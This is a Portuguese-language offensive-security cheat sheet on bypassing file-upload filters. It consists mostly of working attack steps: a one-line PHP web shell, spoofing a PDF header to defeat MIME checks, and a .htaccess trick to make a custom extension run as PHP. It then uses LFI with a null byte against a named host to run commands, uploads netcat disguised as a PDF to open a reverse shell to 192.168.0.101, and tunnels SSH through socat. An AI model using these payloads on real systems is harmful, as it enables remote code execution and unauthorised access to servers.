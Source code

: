 # Bypass File Upload

Crie um arquivo shell.php:
```php
<?php system($_GET['cmd']); ?>
```

Envie em algum formulário o arquivo malicioso.
Caso o arquivo seja barrado na extensão, tente alterar a extensão do arquivo e teste novamente.

Caso a aplicação faça a verificação via cabeçalho do arquivo será necessário efetuar algumas alterações no arquivo PHP.

Código de verificação de arquivo simples:
```php
<? php
echo mime_content_type('arquivo.php') . "\n";
?>
```
```bash
php arquivo.php
```

Verificando o header do arquivo:
head -n1 arquivo.pdf
Output: %PDF-1.3

Alterando header da shell.php:
```php
%PDF-1.3
<? php
echo mime_content_type('arquivo.php') . "\n";
?>
```

Tente subir o código maliciosa para a aplicação novamente e use o LFI/RFI:
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=uname -a

Em alguns casos o código enviado para o site não é interpretado como PHP e ao acessar aparece o seu conteúdo e não executa.
Nesse caso devemos criar um arquivo .htaccess:
```pcre
AddType application/x-httpd-php .sec
```
*Acima estamos falando que arquivos com extensão **.sec** devem ser interpretadas como PHP.*

Faça o upload do arquivo .htaccess para a aplicação e tente executar novamente o seu command execution.

## Fazendo Upload do NC

Criando arquivo nc com bypass:
echo "%PDF-1.3" > header.pdf
cat header /bin/nc > nc.pdf

Envie o arquivo via formulário vulnerável.

Utilizando o NC:
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=tail -n +2 uploads/nc.pdf > nc
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=chmod 777 nc
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=nc 192.168.0.101 443 -e /bin/bash

## Utilizando SOCAT

O SOCAT é utilizado para efetuar o tunelamento de portas filtradas.

#### Uso no servidor:
socat TCP4:NOSSOIP:8443 TCP4:127.0.0.1:22

#### Uso local:
socat TCP4-LISTEN:8443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr

#### Acessando o tunelamento:
ssh root@127.0.0.1 -p 2222

Ou seja, o caminho está sendo feito da seguinte forma:
127.0.0.1:2222 ==> 127.0.0.1:8443 <==> 192.168.0.100:8443 ==> 192.168.0.100:22
**Onde o IP 192.168.0.100 é o alvo.**

